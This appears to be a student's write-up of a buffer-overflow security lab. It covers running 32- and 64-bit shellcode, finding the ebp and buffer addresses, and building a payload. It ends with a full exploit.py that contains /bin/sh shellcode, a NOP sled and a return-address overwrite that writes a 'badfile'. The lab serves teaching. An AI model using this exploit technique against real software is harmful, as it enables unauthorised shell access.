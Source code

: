 # Task 1

![alt text](img/Screenshot%202022-10-13%20at%2011.42.04.JPG)
32 bit shellcode

![alt text](img/Screenshot%202022-10-13%20at%2011.36.54.JPG)
64 bit shellcode

Both versions open a shell where we can use some commands.

# Task 2

![alt text](img/Screenshot%202022-10-13%20at%2012.15.48.JPG)

After creating a `badfile` with a length of 517 (we just copied the contents of `exploit.py` for ease of use), the program creates a buffer overflow.

![alt text](img/Screenshot%202022-10-13%20at%2015.45.35.JPG)

The values of the ebp and buffer address.

# Task 3

As we used the stack-L1, and this program was compiled in 32 bits, we used the value 32 bit shellcode in call_shellcode.c.

To fill the buffer with the maximum possible number of `NOP` values, we placed the start value at `517 - len(shellcode)`, as the buffer can take 517 bytes and we still leave space for the shellcode.

![alt text](img/Screenshot%202022-10-13%20at%2016.05.28.JPG)

The return variable used was the `ebp` in adition to the number `0x103`, as it should have a value between the address and the maximum possible number, 517.
The offset used was the `ebp` - buffer address + 4 bytes, as it'sa 32 bit architecture.

![alt text](img/Screenshot%202022-10-13%20at%2016.20.09.JPG)

Exploit ran successfully.

```
#!/usr/bin/python3
import sys

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80" 
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(517)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 517 - len(shellcode)               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = 0xffffcb18 + 0x103           # Change this number 
offset = 0xffffcb18 - 0xffffcaac + 4              # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

exploit.py code